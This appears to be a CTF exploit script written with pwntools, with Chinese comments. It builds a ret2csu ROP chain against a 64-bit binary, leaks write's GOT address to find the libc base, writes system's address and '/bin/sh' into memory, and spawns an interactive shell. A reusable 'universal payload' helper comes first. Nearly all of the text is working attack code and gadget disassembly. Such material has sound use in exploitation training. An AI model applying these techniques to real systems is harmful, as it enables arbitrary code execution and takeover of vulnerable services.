 ```plain
    payload += p64(r13) + p64(r14) + p64(r15)
    #三个参数的寄存器
    payload += p64(second_csu)
    #gadgets2的地址
    payload += 'a' * 56
    #pop出的padding
    payload += p64(last)
    #函数最后的返回地址
    return payload
#做熟练了可以直接用这个通用Payload

write_got=elf.got['write']
leak('write_got',write_got)
main=elf.symbols['main']
leak('main',main)
read=elf.got['read']
leak('read',read)



"""
.text:00000000004012AA                 pop     rbx
.text:00000000004012AB                 pop     rbp
.text:00000000004012AC                 pop     r12
.text:00000000004012AE                 pop     r13
.text:00000000004012B0                 pop     r14
.text:00000000004012B2                 pop     r15
.text:00000000004012B4                 retn
"""
pl=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(1)+p64(write_got)+p64(0x8)+p64(0x404018)+p64(0x401290)+p64(1)*7+p64(main)
p.sendlineafter('Hello, World\n',pl)

write=uu64(r(6))
leak('write',write)

libcbase=write-libc.symbols['write']
leak('libcbase',libcbase)

"""
.text:0000000000401290                 mov     rdx, r14
.text:0000000000401293                 mov     rsi, r13
.text:0000000000401296                 mov     edi, r12d
.text:0000000000401299                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040129D                 add     rbx, 1
.text:00000000004012A1                 cmp     rbp, rbx
.text:00000000004012A4                 jnz     short loc_401290
"""

pl2=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(0)+p64(0x404060)+p64(0x20)+p64(read)+p64(0x401290)+p64(1)*7+p64(main)
p.sendline(pl2)
p.send(p64(libcbase+libc.symbols['system'])+b'/bin/sh\00')

pl3=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(0x404068)+p64(0)+p64(0)+p64(0x404060)+p64(0x401290)
p.sendlineafter('Hello, World\n',pl3)
p.interactive()
```
